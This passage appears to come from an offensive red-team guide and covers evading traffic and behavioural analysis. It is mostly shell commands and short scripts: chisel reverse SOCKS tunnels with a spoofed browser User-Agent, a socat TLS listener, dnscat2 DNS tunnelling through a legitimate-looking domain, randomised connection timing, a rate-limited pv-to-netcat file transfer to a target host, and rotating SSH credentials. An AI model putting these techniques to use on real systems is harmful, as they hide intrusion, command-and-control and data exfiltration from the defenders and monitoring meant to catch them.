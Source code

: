 ### 12.2 Traffic Analysis Evasion

#### Protocol Mimicry Techniques:

```bash
# HTTP traffic camouflage
chisel server --port 80 --auth "user:pass"
chisel client --header "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" server:80 R:socks

# HTTPS certificate spoofing
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
socat OPENSSL-LISTEN:443,cert=cert.pem,fork TCP:127.0.0.1:1234

# DNS query tunneling
dnscat2 --secret=secretkey subdomain.legitimate-domain.com
```

#### Timing Randomization:

```python
import random
import time

def jittered_connection(min_delay=1, max_delay=30):
    delay = random.uniform(min_delay, max_delay)
    time.sleep(delay)
    # Establish connection
```

#### Volume Control Implementation:

```bash
# Bandwidth limiting with tc (traffic control)
tc qdisc add dev eth0 root handle 1: htb default 12
tc class add dev eth0 parent 1: classid 1:1 htb rate 100mbit
tc class add dev eth0 parent 1:1 classid 1:12 htb rate 1mbit ceil 2mbit

# Application-level rate limiting
pv -L 1024 < largefile.dat | nc target_host 443
```

### 12.2 Behavioral Analysis Evasion

#### Credential Management:

```bash
# Credential rotation script
#!/bin/bash
CREDS=("user1:pass1" "user2:pass2" "user3:pass3")
CURRENT_CRED=${CREDS[$RANDOM % ${#CREDS[@]}]}

# Use credential for connection
ssh -o PasswordAuthentication=yes ${CURRENT_CRED%:*}@target_host
```
